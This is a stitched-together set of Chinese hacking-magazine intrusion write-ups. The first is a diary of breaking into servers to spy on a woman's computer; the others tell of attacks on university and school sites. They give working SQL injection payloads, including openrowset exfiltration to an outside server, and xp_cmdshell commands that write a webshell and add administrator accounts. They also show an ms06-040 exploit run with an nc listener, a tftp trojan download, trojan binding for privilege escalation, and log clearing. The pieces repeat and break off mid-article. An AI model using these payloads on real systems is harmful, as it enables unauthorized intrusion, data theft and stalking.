更改前面的语句为：`UploadFiles%2F2006-8%2F53455200.jpg';insert+into+[oblog_admin](username,password)values('52cc','49ba59abbe56e057')--jpg%0D%0A`，将前面注册的普通用户 52cc 提升为管理员。接下来，输入后台的登录页：`admin/admin_index.asp`。嘿嘿，运气不错，后台地址也没有改变，输入名称“52cc”及密码“123456”，成功登录进了后台！其实进后台的目的就是为了得到 BLOG 的物理路径，有了这个路径“E:\www\blog”，采取数据库差异备份或 LOG 日志差异备份的方法，就能够得到一个 WebShell 了，但对方的数据库太大了，每次备份总是出现超时。在试了 N 次后，也没有看到预期的页面，只得悻悻地放弃了。

外面的雨也停了，算了，今天就到此为止吧，整理一下所提交的图片信息，停会儿出去呼吸一点新鲜空气，说不定会有灵感出现！

## 8月23日 阴转多云

今天“萧雪”的头像又亮了两个小时，我也是呆呆地看了两个小时，直到头像暗了下去，我才想起还没有拿下这台服务器。既然 OBLOG 的后台无法获得 WebShell，那么这个网站的其他版块呢？譬如 BBS 或新闻版块，但这两个似乎更难，因为 BBS 是动网的最新版，本新闻版块根本就看不出版权信息，而且全是 HTML 页面。要是能得到这两个或其他版块的管理员名称和密码就好了！循着这条线索来个自问自答。

> Q：如何得到其他版块的管理员信息  
> A：用 OBLOG 的注入点跨库查询。
>
> Q：如何得到其他数据库库名，用暴库的方法？  
> A：不，用 openrowset 语句。
>
> Q：利用 openrowset 语句的条件是什么？  
> A：两点，一是拥有被入侵网页中的一个注入点，且对方的数据库采用的是 SQL 数据库；二是拥有一个公网 IP 的 SQL 数据库权限用户名及密码。

问答完毕，看似没有差错，接下来就付诸行动。以下用 222.222.222.222 代表 SQL 数据库的公网 IP，jmdcw 为用户名，密码是 123456，jmdcw 所属的库为 ciwei。由于 openrowset 语句不常使用，这里将步骤记录下来，以备后查。

先用本地的“SQL 查询分析器”，连接 222.222.222.222。虽然 jmdcw 只有 db_owner 权限，但也能运行好多命令。打开“查询分析器”后，先在 jmdcw 所属的数据库 ciwei 中创建一个表 jmtmp1：`create table jmtmp1(name nvarchar(400) null)`，用于接收数据。接下来抓取 OBLOG 中的“发表照片”数据包，在数据“log_pics”值 53455225.jpg 后加入如下内容，并依次提交：

```sql
';create+table+jmtmp(name+nvarchar(400)+null)--jpg // 在被入侵网站数据库内创建一个表。
';insert+jmtmp(name)+select+name+from+master.dbo.sysdatabases--jpg // 看数据库名，并将结果插入到前面创建的表中。
';insert+into+openrowset('sqloledb','uid=jmdcw;pwd=123456;server=222.222.222.222,1433;','select+*+from+ciwei..jmdcw..jmtmp1')+select+*+from+jmtmp--jpg // 用 openrowset 函数将前面得到的数据插入到 222.222.222.222 中的 jmtmp1 表中。
';drop+jmtmp--jpg // 删除 jmtmp 表。
```

提交完成后，在连接到 222.222.222.222 的查询分析器中执行如下命令：`select * from jmtmp1`。嘿嘿，拿到了所有的数据库名。从名称上分析，其中的“bbsdb”应该是论坛的数据库。那么接下来就更改语句来查询 bbsdb 中的表名，其步骤和查询库名是一样的，只是语句略有改动。还是先在 222.222.222.222 中创建一个新表：`create table jmtmp2(id nvarchar(400) null,name nvarchar(400) null)`。然后在数据“log_pics”值 53455225.jpg 后加入如下内容，并依次提交：

```sql
';create+table+jmtmp(id+nvarchar(400)+null,name+nvarchar(400)+null)--jpg
';insert+jmtmp+select+[id],[name]+from+bbsdb.dbo.sysobjects+where+xtype='u'--jpg // 这里中的 bbsdb 是论坛的数据库名，如果要查询其他数据库中的表名，只要更改相对应的库名即可。
';insert+into+openrowset('sqloledb','uid=jmdcw;pwd=123456;server=222.222.222.222,1433;','select+*+from+ciwei..jmdcw..jmtmp2')+select+*+from+jmtmp--jpg
';drop+jmtmp--jpg
```

执行完毕后，在连接到 222.222.222.222 的“查询分析器”中执行命令：`select * from jmtmp2`，这次看到的是“bbsdb”数据库中的所有表名。就在我准备继续查询表中列名的时候，却产生了一些疑问。

在正常情况下，每个数据库的连接用户都是不一样的。为了安全，管理员会将连接数据库的用户权限定为 db_owner。这样，因为权限的原因，不同的连接用户是访问不到其他数据库中的内容的。而这里，我竟然可以看到另一个数据库中的表名，这有两种可能：

- 这个 bbsdb 数据库的连接用户和 oblog 的连接用户是同一用户；
- 当前 OBLOG 连接数据库的权限为 SA。

要测试第一种可能性，需要在 BBS 版块中找到一个注入点进行暴库，但它的注入点目前没有找到。而测试第二种可能性，方法就简单多了，只需向 oblog 的目录中写入一个文件，然后进行访问；存在的话就说明当前数据库用户是 SA 权限（当然也有可能虽是 SA 权限，但被管理员删除了相关组件，也会出现找不到文件的情况）。

拿出记下的 OBLOG 物理路径，用 echo 写入一句话木马，成功写入的提交语句部分代码如下：

```text
&log_pics=UploadFiles%2F2006-8%2F53455225.jpg';exec+master.dbo.xp_cmdshell+'echo+"<%25execute(request(""1""))%25>"+>E:\www\blog\UploadFiles\m.asp'--jpg
```

这里中的“%”是转义字符，用于将一些敏感的字符进行转换。在最初构造语句时，偶忘记了将 ASP 标识“<%”中的“%”写成 ASCII 值“%25”，结果费了好几个路径都没有成功，后来在本地进行测试，才想起这个字符需要转换，唉！不知是自己太激动了，还是时间太久，记忆退化了。有了这个一句话木马，要弄上去一个大马就好办多了，这里传的是“程序网络工作组 ASPAdmin”，看着 ASPAdmin 页面顶部的打开，偶总算松了一口气。其实想想自己也够笨的，如果提前判断一下数据库用户的权限，不早就得到了 WebShell 了？

# 西线无战事

虽然只拿到了 WebShell，但我已成竹在胸，为什么？因为 OBLOG 的数据库用户是 SA 级别的，只要查一下 OBLOG 中的 conn.asp 内容，不就什么都 OK 了？拿到数据库的用户名及密码后，我用本地的“SQL 查询分析器”去连接这个网站的 IP，结果出现了错误，看来管理员禁止从外部连接 SQL 数据库。

这怎么办，难道要上传一个端口转向工具进行跳射？虽然是一种方法，但是太麻烦，而我所上传的“程序网络工作组 ASPAdmin”在数据库上有不俗的表现，也许它可以帮我拿到管理员权限。切换至“数据库操作器”选项，用得到的管理员名称、密码及库名进行登录。

我记得在本地的“SQL 查询分析器”中，可以执行很多命令，那么在 ASPAdmin 的数据库管理中，不也有一个命令输入框吗？如果我在这儿输入一些命令语句，应该和在“查询分析器”中所执行的效果是一样的吧！抱着试试看的想法，在其中输入添加管理员的语句：

```sql
exec master.dbo.xp_cmdshell 'net user sqladmin imdcw /add & net localgroup administrators sqladmin /add'
```

执行后，弹出了一个成功的窗口，但是否真的成功了呢？我接着又输入了一条查看用户信息的命令：

```sql
exec master.dbo.xp_cmdshell 'net user >E:\www\blog\net.txt'
```

将用户信息输出到 `E:\www\blog\net.txt`，然后在浏览器中查看这个 net.txt，嘿嘿，sqladmin 用户赫然在列，我想这个用户应该不是系统原来就有的吧！如果想查看该用户更详细的信息，只需输入：`net user sqladmin`。我相信自己，就不做这无用功了。

接下来，查看服务器终端状况，输入如下命令：

```sql
exec master.dbo.xp_cmdshell 'net start >E:\www\blog\start.txt'
```

难道管理员知道我要来，提前给开启了“Terminal Services”服务？呵呵，这下省我的事了，再来看一下当前端口的情况：

```sql
exec master.dbo.xp_cmdshell 'netstat -anb >E:\www\blog\netstat.txt'
```

这里在 netstat 的参数中加了一个 b，就能看到端口所对应的程序名称（此参数适用于 XP/2003 系统），然后用 netstat.txt 中查找终端的服务名称“TermService”，发现其所打开的端口是 2006。唉，原来终端不是为我准备的！嘻嘻，就算你改了端口地址，还是被偶发现了。不知道终端是否可以从外部登录？启动本地的远程桌面连接，在计算机处填入“IP:2006”，点“连接”，1、2、3、4、5，只用了五秒，2003 的远程登录窗口就出现了，太爽了。输入前面创建的用户名及密码，成功登录。

当我拿到 Admin 权限时，时间已经很晚了，虽然半夜正是入侵的好时候，但我的眼皮却开始打起架来，看来熬夜也要经常锻炼才行。整理完这些记录，我也该休息了。不过，在睡之前，要先清除留下的痕迹，比如 BLOG 中的大量图片信息，以及 IIS 及事件查看器中的一些日志信息。虽然不能做到尽善尽美，但稳妥一点，还是没有坏处的。否则，被管理员发现了，一切就全完了。

## 8月24日 晴

已经记不清这是第几次梦到她了，而当我惊醒的时候，天已经亮了。略微洗漱后，随便填了一下肚子，新的征程又开始了。

虽然我已经拿下了服务器的 Admin 权限，但怎样才能分析出每个 QQ 所对应的 IP 呢？我在搜索网站内变换不同的关键字，终于找到了一款不错的软件——QQ 第六感。在本地测试时，发现需要安装。如果在服务器上安装软件，风险性太大，能不能将软件装在其他机器中呢？

于是我上传了一个 Sheds 软件，用它在内网中搜了一下，找到了七八台有隐藏共享的机器。而从其服务器的内网 IP 排序及其网页中的相关链接中也可以看出，这其中的几台机子好像也是服务器。用 Superscan 3.0 扫描了一下，其中有三台机器打开了 1433 端口。一般来讲，内网中机子的安全性都比较差，不知道三个 MSSQL 数据库的 SA 用户是否有弱口令？打开服务器系统盘下的 `Program Files\Microsoft SQL Server\80\Tools\Binn\isqlw.exe`，在“SQL SERVER”地址处填入所扫描到的 IP，以 SA 为登录名，密码用空或 123456 等一些简单的弱口令进行尝试。想不到巨顺利，还不到一分钟，就成功登录进了一台服务器，因为是 SA 权限，输入昨天创建用户时的命令，在这台服务器（以后称为 B 服务器）上也创建了一个 SQLAdmin 管理员。然后，用 `net start` 及 `netstat -anb` 查看终端开启信息。有句谚语怎么说的，运气来了挡都挡不住，嘿嘿，这台机器的终端不仅开启了，而且还是默认的 3389。用 SQLADMIN 用户登录，然后在这个终端中安装 QQ 第六感，再切换到我当前的窗口，看一下我 QQ 中好友的状态，“萧雪”的头像不知什么时候已经亮了。

OK，启动 QQ 第六感，按默认设置，扫描内网 IP 段，然后逐段监听。功夫不负有心人，终于找到了“萧雪”的 QQ 所在的 IP——192.168.0.25。

QQ 主人的 IP 找到了，但如何进一步渗透呢？也就是说，如何拿下这台机子？为了安全，我将战场从网络服务器移到了 B 服务器中，也就是在终端中的终端进行探测。俗话说，知己知彼，方能百战百胜。怎样知己呢？当然是扫描了。先了解一下当前服务器 B 中的杀毒软件，哇，竟然没有，这下有得玩了。下载一个 x-scan，填上 192.168.0.25，刺探一下对方的信息。结果失望 ING，除了知道对方是 WinNT 5.1（XP）系统外，就再没有什么有用信息了。怎样拿下这个 XP 系统呢？我试了所有知道的方法，结果是一败北。看来想攻入个人系统，确实很难。

由于长时间的隐身，已经习惯了独立思考，出现了问题，也不再像以前那样四处告急了。我默默地走过一个又一个的论坛，查看一个又一个的帖子，循着一条线索，来到了“邪恶八进制”。在这里，有一款刚刚公布的溢出程序：ms06-040，适用于 2K 和 XP SP1 版，编译者是“无敌的GF——MIKA”。看到有关 MIKA 的介绍时，偶好生羡慕，不知是羡慕 MIKA 的才能，还是羡慕无敌的无敌。羡慕归羡慕，工作还是要做的！

首先在一个 CMD 窗口内用 NC 监听 5200 端口：`nc.exe -v -l -p 5200`。然后在另一个 CMD 窗口中执行：`ms06040.exe 192.168.0.25 B服务器IP 5200`。当查看 NC 监听窗口返回的信息时，我觉得很眼前一惊，五夏之中，真的有老天在帮助吗？看着得到的 SHELL，我觉得大脑一片空白，是激动，还是别的什么原因？我现在也说不清了，只觉得过了好长时间，我才想起还没有刺探出 QQ 主人的信息。

要了解对方，最好的方法就是传个木马过去，可怎么传输呢？考虑了再三，觉得用 tftp 方式比较好。于是从网上下载了一个 tftp 软件，并且又找了一款最新的 radmin 软件，这是一款号称无端口、无进程、无服务的三无产品。简单配置了一下，将生成的 `server.exe` 程序复制到 tftp 所在目录中，接下来启动 tftp 软件，然后在前面得到 SHELL 中，执行如下命令：`tftp -i B服务器IP get server.exe`

因为程序较小，传输的速度也很快，接着在 Shell 中执行 `start server.exe`，如果返回的不是“找不到此文件”诸类的错误信息，则说明木马已经启动了。接下来启动终端中的客户端程序，按照木马生成时设置的端口及对方的 IP 地址建立了一个新连接。为了不惊扰对方，我选择了“屏幕监视”，也就是一两秒钟，对方的屏幕传输过来了，切，是 logon.scr 在运行，机器的主人跑哪去了？不过，这正是查看磁盘内容的大好时机！在“客户端”选择“文件管理”，从最后一个磁盘开始，寻找一些特别的目录名称。在打开了一个又一个的目录后，在一个看似平常的目录中，发现其中有很多子层，展开了一层又一层，最后看到的是一个压缩文件，名字为 52cw.rar，这是什么文件？个人隐私？先传输过来！阿弥陀佛。佛！老天见谅！我也是迫不得已！就在我刚要传输的时候，“监视屏幕”窗口有了动静，随着密码的输入，当前的桌面传输了过来。咦？桌面背景中的人像怎么那么眼熟，虽然当前传输的图像只有 256 色，但我还是辨认出来了，那个咧嘴傻笑的不就是我吗……

> 【本文中用到的工具 ms06040.exe 已收录在本期光盘中】

**编辑点评：** 作者构思了一个故事，将 OBLOG 提权、openrowset 宏注入、ms06040 的漏洞结合在一起来写，让读者兴趣会很高。但是没有图片在里边，难免会让一些初级读者感觉到没有尽意，不太明白里边技术的具体运用。

# 漫长的渗透

## ——记对四川理工学院的网站检测

从本文中，着重要了解的是：作者每步入侵思路的关联

测试发现 [N.C.P.H.]

## 前言

很多玩黑的朋友都是在校的学生，当然不管是出于哪种心理都想拿下自己学校的网站，教育网站的确很脆弱，但也不是绝对的，比如我们学校的网站吧，从建站到现在，我应该是第一个拿到首页服务器权限的。我仍不去追求结果，而是追求这个渗透的过程，应该算是一种耐心和技术的考验，因为历时半年我才拿到权限，所以算是一个漫长的渗透。

## 起因

作为四川理工的学生，作为一个对黑客技术很痴迷的人，想知道自己学校的网站安全性到底怎样。当学校服务器权限掌握在自己手中时更有一番别样的心情。说实在的，我比较讨厌学校的教育，因此我挂了很多科还重修几科，上课时我看的都是自己买的书，学校的书落后不说，就兴趣和老师念经式的讲课方式而言，已足以让人昏昏入睡了，我应该算是有一点叛逆心理吧。

## 六个月前

初次检测它的时候是六个月前，那时挂了三科，心情极差。网站地址：http://www.suse.edu.cn

主站的 IP 为：61.139.105.133，开 superscan 扫了一下，意料之中，只开了 80 端口，因为听说学校的主站还没有被黑过，并且服务器是直接放在学校机房，所以连 3389 和 FTP 都没有开。

于是接下来我便检测它的脚本漏洞，主站就一个新闻发布系统，其它都是静态页面，而这个新闻发布系统没有任何注入可言，程序是 asp.net 的。用工具扫一下看，对于大站的脚本检测我比较喜欢用 Acunetix Web Vulnerability Scanner 进行扫描，虽然它比较费时，但得出的结果很详细，还可以探测一些目录，当时用的是 2.0 的破解版，现在是 4.0 的了。十几分钟，扫描结果出来了，网站里就几个静态页面、images 目录、news 目录，还有些什么乱七八糟的，扫出来一些出错路径，一些没用的链接，还真没进展。继续手工搞了一些目录和文件什么的，也没有搞出来。

没办法，看来不能直接从主站着手了。转了一下，直接在首页上一个一个链接进行检测，的确还有很多二级域名划下来的网站。在院报栏目中，又发现一个新闻发布系统，跟主站那个不一样。检测注入，无！换个 upfile.asp 出现，一个文件上传页面，上传 asa 文件，失败，这很正常，肯定无法直接上传的。试试改包上传，于是拿出抓包工具，把木马改为 gif 的文件上传上去，将抓包里面的 gif 改为 asp，修改路径、字节长度，用 nc -vv newspaper.suse.edu.cn 80，提示上传成功，终于得到第一匹马，如图 1。

第一反应是提权，还好，开了 FTP，开了 1433 和 3306 端口，FTP 的溢出没能成功，serv-u 的权限降至 guest 权限，并且改了密码。打开 c:\windows 目录，找到了 my.ini 文件，mysql 的 root 用户名和密码都在里面，便在 asp 马中连接 mysql，传了个 my_udf 上去，注册扩展函数，正向连接 3306 输入密码得到一个 cmdshell。

遗憾的是当时没有作进一步的渗透，拿到 cmdshell 后就没有再继续下去，甚至连一个后门都没留了，它的 IP 是 61.139.105.132，主站是 61.139.105.133，其实应该把这个服务器的密码哈希 dump 下来，然后在本地破解，或是装个嗅探器进行嗅探，但当时苦于不是主站服务器就没有再进行下去了。

## 六个月后

今天，系里面的老师打电话告诉我计科系的网站好像有安全问题，叫我看一看。当时我记得，六个月前检测的时候，拿下的 61.139.105.132 服务器里面是除学校主站外其它站点都放在里面的，包括各系的网站，不被人黑才怪。于是再次检测一次学校的网站吧，上次没能拿下主站心还不甘呢，反正也要毕业了，总不能带着遗憾离开呀。

先看看那台有问题的服务器，我的 webshell 已经没在了，看来管理员早发现了，上传漏洞的文件被人删了，不知是哪位好心人还是管理员。不管怎样，还有那么多的网站，程序的漏洞应该还在吧。

先看看计科系的网站，网站已经改版了，说实在的，读书两年了都没有好好看过系里面的网站。整站程序是用 asp.net 写的，检测了老半天没啥注入之类的漏洞，有一个 gbook，猜了一下，猜出来的数据库也是 mdb 的，有一点想不通，应该网站没有什么漏洞。先照常测试一下看。用程序检测一下网站存在的一些敏感目录和敏感文件，于是我拿出我自己的字典，开启程序跑起来，跑出来的结果如图 2。

看到了，有几个敏感的文件和目录，打开看看，因为很多人有个习惯，就是要把网站不相关的程序或文件放在上面，虽然网站没有调用，但穷举猜解出来有时候还是很有用的，比如找到一些网站空间上放着的测试程序，而又有漏洞就好办了。

打开 jkx.suse.edu.cn/test.asp，出现乱码，有点像 asp 格式数据库打开的样子。在最下方出来如下字样：类型不匹配：'execute' 参数的对象语法不正确。用客户端连接，猜猜密码看，cmd、1、a、123、ah 都不是，结果猜到 abc 的时候出现下面内容，这就叫猜解的艺术吧（图 3）。

进去了。在目录里翻了翻，看了看源代码，这程序确实没有什么注入之类的漏洞，刚刚上面扫出来一个 upfilem.aspx，打开出现上传界面，但上传是做了限制的。从这个 test 文件来看应该是日志备份得来的，但这个站又没有注入，是怎么来的？难道是从其它站备份过来的？但得知道这个站的路径啊。

我看了一个下载奖学金的链接 http://jkx.suse.edu.cn/download.asp?path=2006109154938.xls，想到试 ../index.aspx 看能否下载，看来没搞成。死心不甘，测试下搜一个不存在的 test.doc，这时便爆出了路径“F:\wwwroot\jxxs\jkx\upfile\testtest.doc does not exist”，看来路径是可以爆出来的。那这个服务器上的其它站一定有漏洞了。

又转了一圈，发现 http://jwc.suse.edu.cn 也是这台服务器上的，但上面存在的漏洞就多了，加 “'” 直接爆错（图 4）。

存在注入不说，再在后面加一个 bbs 竟出现一个论坛，有点面熟，随手输入 data/dvbbs7.mdb 可以下载数据库，都闹到后面玩都不玩它了。

接下来又仔细检查了其它系的网站，居然又找到一个注入点，看来这个服务器是漏洞太多了。不过总结下来，计科系的网站安全问题应该是网站改版前别人留的后门了，新的网站没问题的。随后通过取得的 webshell，注册 mysql 函数反弹一个 shell 过来，写入批处理开 3389，上服务器做了目录权限，设置单独的 IIS 用户并只给 guest 的读取权限，那样别的站的 webshell 想改都改不了它的文件，再删除上面别人留的 asp 后门，再停掉 3389 服务。如图 5 所示。

# 乘胜追击

现在已经得到几个分站的服务器，是否继续渗透主站服务器呢？总不能在毕业之际留下遗憾吧，我选择了继续。也许很多朋友在想，既然拿到了同一网段的一台服务器，还有了 3389，我们就可以搞嗅探了啊，装个 cain 可以抓好多东西。但我想了一下，这种方式是行不通的，因为主站只开了 80 端口，难道我们去抓 HTTP 的数据？得到的也是 md5 加密的，且不说能不能破解，就是进了后台也不一定能传东西，所以注定我们要从 web 着手。

# 社会工程学

从网站常规的目录和文件看来是无法着手的，因为显示在网站上的链接和目录等都没有漏洞的。那么它有没有没有显示在网站上的目录或文件呢？如果管理员不小心放了一个正在调试的目录，或者放有其它有漏洞的文件而在网站上并没有调用呢？这里我便开始手工猜一些目录和文件，经过测试存在 test 目录、news，给了我一个惊喜的是猜出来一个 gbook 目录，难道有戏了？因为留言本大家都知道，一旦猜出数据库为 asa 或 asp 的路径我们就有办法了。于是往 http://www.suse.edu.cn/gbook/ 后加各种文件，什么 data.asp、user.asp、user.asa、gb.asa，再加一个 /data/ 目录，存在。数据库一定就在这个目录里的，再猜，还是没有猜出来，猜这个数据库的时候都花去了一个多小时，也想过通过这个 gbook 的链接或是特征字符串来查看是采用什么留言本程序的，然后在网上找找，看能否找到默认数据库，但是还是没能成功，后来听某同学说是学校自己写的，只好放弃了。

本以为有一点希望的，在这个地方卡住了。没办法，再静下来想想，是否还有其它的办法，还有那个 test 目录里面的内容也是猜不出来。我现在不是在用社会工程学吗？少了 google 行吗？

于是上 google，让它来帮我查找主站的链接，输入 site:www.suse.edu.cn，结果让我大吃一惊，搜出这么多的内容。如图 6。

在第二页就看到了一个陌生的链接，应该是一个陌生的目录，因为这个目录没有在网站上看到过，有可能是一个正在调试的程序。就是 www.suse.edu.cn/xjzt/ 这个链接，其实平时在主站看到的只有 /news/ 目录，也就是一个新闻系统。

于是我点开这个目录，程序是 asp.net 的。我在网址后加 '，出现的内容没有报错，但有变化，我再输入 and 1=1、and 1=2，显示内容不一样，应该当 SQL 语句执行了，于是拿出啊 D 工具来检测一下，当得到 MSSQL 数据库的注入，并且是 db 权限时，一阵狂喜，折腾这么久，终于有个突破口了。

接下来列出了主站目录，原来它本机还装有 MSSQL 数据库，只是没有对外开放连接，如图 7。

## 曲折的 webshell

玩到这个时候，应该算是松了一口气了吧，这时大家都会想到差异备份就搞定了，但入侵过程总遇到各种各样的情况，这次的差异备份并不顺利，软件备份也试了，手工备份也试了，把一句话木马转换成十六进制，又是加容错语句啊，又是改编码啊，还是出现如图 8 所示页面。

感觉好像是过滤了 <>，去那个论坛问了问这种情况，听 hack520 说多半没得搞，后来在源代码中也看到了，的确是过滤了多种符号。这时想到可以列目录，先前不是找到一个留言本吗？现在可以去看下它的数据库了，可进去一看，居然是 xml 为后缀的，看来没得搞了。好不容易找到个注入点也不给我权限，老天好像在和我玩游戏。不过还好，这个注入点可以列目录，去看看其它目录，当然找找看有没有 mdb 数据库的，可以下来看，还找找看管理后台，最重要的是找有没有留言本，希望能遇到一个 asp 或是 asa 数据库的。

里面的目录很多，新闻系统数据库是 .asa 的，可要登录后台才能写东西，把数据库下载下来看看，密码是 32 位 md5 加密，在 xmd5 网站去跑了一下，没有跑出来。再看看其它的，找了几个后台目录，其它都是 SQL 数据库的，想跨库查询，先放到后面，再列。

# 提升权限

目录看看了。寻找 editor 目录，没有找到传说中的 ewebeditor。现在已是深夜了，终于找到一个留言本，老天不负有心人（图 9）。

这个目录真是够隐蔽，这个留言本是用的网上的程序，一看就很熟悉，找到数据库是 .asa 的，看来注入点还是帮我了大忙，写了一个一句话马，打开数据库，出现 execute 错误，看来写上去了，直接用一句话连上去，上传了一个大马，得到一个 webshell（图 10）。

因为服务开得少，提升权限也是一件很困难的事，还好权限设置得不是很严，找了很久的 SQL 数据库账号和密码，可都是 db 权限的，没一个 sa，又没 FTP，没 mysql，还好 C 盘权限设置不是很严。在 E 盘 software 里面查看有一个“木马杀客”文件夹，这时再看了一下系统的安装盘 c:\program files 里面有没有杀毒软件，结果没有，想用替换服务的方法提权，可等的时间应该很长。再看看 E 盘的 software 里面都是很多常用的工具，这时我换了一种思路来提权，试下发现 software 有写入权限，于是把“木马杀客”里的 mmsk.exe 下下来，配置了一个自己的反弹免杀木马，用免杀捆绑工具将生成的木马与 mmsk.exe 捆绑在一起，再上传到服务器“木马杀客”文件里，覆盖 mmsk.exe，然后直接修改网站首页，弹出一个提醒管理员的对话框：“管理员请注意，学院服务器存在安全漏洞，请修补漏洞，清除木马。by 理工学子。”

半小时左右，网站恢复了，再等等管理员应该正在用“木马杀客”扫木马了，这也只是运气问题赌一赌了，因为管理员把“木马杀客”放在他的常用软件里，且服务器里面没其它软件，也没安装杀毒软件，所以猜定他应该第一时间运行“木马杀客”软件。

乖乖，服务器上线了，等等再操作，怕被管理员发现，之所以改用这种方式提权，一是玩思想，也就是你要笃定管理员的想法和做法，二是我对我的木马有信心，无进程、无端口、无服务，且无连接状态，当然更是免杀了。如图 11。已是晚上 12 点了，接着建个账号，开个 3389 进去做下安全，然后清除日志，关闭 3389 服务，完美退出。如图 12。

# 尾声

文章写得有点长，但绝不是骗稿费，也没打算要稿费，看下去需要耐心。恰如狐狸的一句话：“玩渗透玩的就是思维”，的确让我感触不小，这是我的一次真实的渗透经历，经过了半年时间我才真正拿到主站的权限，没什么技术性，写出来仅供大家分享。有什么问题大家可到 ww.ncph.net 共同交流探讨，希望结交痴迷黑客技术的朋友。

> **编辑点评：**
> 实话讲，这篇文章很长，也没有新的技术在里边，但从整篇文章来看，作者写的是一次自己的人侵过程，每步抽丝剥茧，思路较为清晰，也有耐心。作者说“文章写得有点长，但绝不是骗稿费，也没打算要稿费”，稿费还是要给的，不过我们经济惨淡，等稿费过程中也要有耐心呀。

已！这个时候我紧张的心情一下就放松了，几个月前我刚写了一篇分析尘缘雅境图文系统漏洞的文章，这下看来是派上用场了！因为进入后台是用的以前分析过的漏洞，我这里就不重复分析代码，只是简单叙述下应用的过程了。

首先打开 http://www.****.edu.cn/admin/adduser.asp 这个页面，弹出提示用户注册功能已被管理员关闭，不让注册，怎么办呢？没有关系，我们在网上找一个开放了注册的系统，打开这个页面保存到本地，再修改提交就可以了。我已经保存好了，接下来就是修改表单的内容。我们需要修改如下三个地方：

- 1. post 提交页面，需要把地址补成 http://www.****.edu.cn/admin/saveuser.asp。
- 2. 工作单位要修改成目标网站设置有的单位，不然注册就不能成功，这里需要点开新闻看新闻的出处才能找到（图 1）。
- 3. 关键的两个参数：purview 和 oskey 的 value 值，purview 的值改为 99999，oskey 改为 super。

现在本地打开这个页面，填好其他资料点击提交就会提示注册成功，等待管理员开通。其实这个时候我们的管理员账号已经可以使用了，这里我已经登录后台成功了（图 2）。

本文你可以学到：

- 生缘堕疑图文系统最新漏洞利用及获得 WEBSHELL 的方法

前几天得知一个儿时的好友是某高校的网络管理员，在闲聊中他可能觉得我对脚本安全还有那么一点认识，就非要邀请我对他们学校的网站做下安全检测，百般推辞不过，硬着头皮接受下来。人总是要面子的，不知道要是找不到什么有价值的还怎么去面对他？为了面子还是努力找吧！

打开网站 http://www.****.edu.cn，看了下新闻版块，是 asp 构建的，首先还是先找注入的连接吧，随便点个新闻 http://www.****.edu.cn/readnews.asp?newsid=4971。老方法加 ' and 1=1 测试注入，返回“请勿在本站搞破坏”，应该是加了通用防注程序。突然看见网站底部的版权说明怎么看都面熟呢？再 google 搜索下关键字“XX大学新闻网系统 V3.0 ACCESS 版 build 20030123”，啊，原来用的是生缘堕疑图文系统，只是把前面的几个字改掉了而已。

# 西线无战事

管理员账号已经可以使用了，这里我已经登录后台成功了（图 2）。

正在我以为 shell 唾手可得的时候，出现了意外的事情。本来从后台拿 shell 有两个方法：

- 1. 保存远程图片漏洞；
- 2. 上传文件漏洞。

但是保存远程图片的功能已经没有了，上传文件的模块也被管理员重新修改过了，两种方法都失败了。看来又要读代码了。读了一会儿没有什么发现，再回过头来看网站后台的功能，发现一个可以编辑网站属性的功能，不知道有没有用处。看了下代码，有了一些发现：

```asp
set fso=Server.CreateObject("Scripting.FileSystemObject")
set hf=fso.CreateTextFile(Server.mappath("../inc/config.asp"),true)
hf.Write "<%" & vbcrlf
hf.Write "Const MaxFileSize = " & chr(34) & trim(request("MaxFileSize")) & chr(34)
hf.Write "Const SaveUPFilesPath = " & chr(34) & "UploadFile" & chr(34) & vbcrlf
hf.Write "Const UpFileType = " & chr(34) & trim(request("UpFileType")) & chr(34) & vbcrlf
hf.Write "Const byteType = " & chr(34) & trim(request("byteType")) & chr(34)
```

上传文件的限制被写入了 ../inc/config.asp 文件中，那我只要把一句话写入配置文件，向 config.asp 提交不就成功了吗？有了思路马上就去实践下，结果令人很失望，目标网站根本就没有这个 config.asp 文件，看来是管理员改过代码了！

在没有什么其他思路的时候，看见 focn 上线了，赶紧叫他帮忙看下，自己则去喝节酒了。因为喝了点酒，糊涂了这事，一回来到第二天醒来后看到他给我留言才知道 shell 已经得到了。兴奋之余问了下思路，居然还是有东西写入了配置文件，直接提交就是了，看来先前的思路没错，只是地方没找对而已。又去看代码，终于找到了问题所在，在 admin 目录下的 CreateASP.asp 文件中有如下代码：

```asp
set rs=server.CreateObject("adodb.recordset")
rs.Source="select top " & NewsNum & " * from News order by NewsID DESC" '选出最新文章
rs.Open rs.Source,conn,1,1
set fs=server.CreateObject("Scripting.FileSystemObject")
FilePath=server.MapPath("../LastNewsXP.asp")
set JSFile=fs.CreateTextFile(FilePath)
JSFile.writeline("<table cellpadding=3 cellspacing=0 border=0>")
while not rs.EOF
JSFile.writeline("<tr>")
JSFile.writeline("<td width=100%><a href=http://" & xpur & "/ReadNews.asp?NewsID=" & rs("NewsID") & " target=_blank>" & trim(rs("title")) & "</a>(" & Year(rs("UpdateTime")) & "/" & Month(rs("UpdateTime")) & "/" & Day(rs("UpdateTime")) & ")")
'写入新闻标题、时间
```

这里先是找到最新的文章，然后把链接、标题、时间等写入到 LastNewsXP.asp 文件中，我们只要添加一篇文章，在标题处填入一句马，然后把它设置为推荐文章就等于把马写入到了 LastNewsXP.asp 文件中，最后用模拟客户端向这个文件提交就可以看见熟悉的登录界面了。开始一直想不通为什么要把这些写入文件，后来才发现是作者为了方便首页调用的，看来还是那句老话：多给一点方便，就多一点危险。

进 wcbshell 后发现配置还算严格，该删除的组件都删除了，该限制权限的地方都配置了，不过因为是 2003 的服务器，默认支持 .net，而且又装了 Serv-U，所以还是被我用 .net 版的 Serv-U 提权工具提权，懒得开 3389，直接放到鸽子上了（图 3）。接下来做下提交测试，通知了我朋友漏洞所在，总算没有丢脸。

尘缘雅境图文系统虽然在很早以前就停止更新了，不过用户还不少。到现在漏洞也被发掘得差不多了，这次能再挖出新闻还是因为 focn 的功劳，在此得多谢 focn 大哥一直给予的帮助。我是黑客手下，欢迎大家到黑客手册的论坛一起讨论技术！

> [文章中用到的 servu.aspx 已收录在本期光盘中]

**编辑点评：** 分析了源码，找到了本地提交马的方法，直接提权为尘缘雅境图文系统的后台管理员。在后台，用写入配置文件的方法，拿到了 webshell，也许下次会有 asp 代码的宏观逻辑注入，成功入侵这个有通用防注程序防护的网站确实不易。

# 从本文你可以学到：

- 1. 渗透的基本思路
- 2. 渗透的过程
- 3. 权限提升和端口数据转发

大家好，今天给大家讲讲对长江大学门户网站——长大在线的一次安全检测，因为我的一位好朋友是长江大学网络部的，负责长大在线的管理和维护工作，朋友想让我帮他看看网站的安全性，所以就有了这次安全检测。

